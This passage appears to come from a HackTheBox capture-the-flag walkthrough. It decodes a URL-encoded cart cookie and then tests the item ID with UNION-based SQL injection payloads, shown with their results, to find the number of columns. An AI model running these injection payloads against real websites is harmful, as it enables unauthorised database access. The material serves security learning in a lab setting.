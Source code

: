 ```
custom_cart=%7B%2253GG2EF8%22%3A%221%22%7D
```

URL decode:

```json
custom_cart={"53GG2EF8":"1"}
```

That _53GG2EF8_ should be the ID for the item, so we will focus on there. Maybe it is making database queries to retrieve its information. Going some manual testing here, starting for the UNION kind. (It's the machine logo a hint for UNION SQL injection?)

```sql
'-1' UNION SELECT 1-- -
```
Result: not found

```sql
'-1' UNION SELECT 1,2-- -
```
Result: not found


```sql
'-1' UNION SELECT 1,2,3-- -
```
Result: 2

<p align="center">
  <img src="/images/walkthroughs/hackthebox/shared/2_0_sqli.png" width="90%"/>
</p>
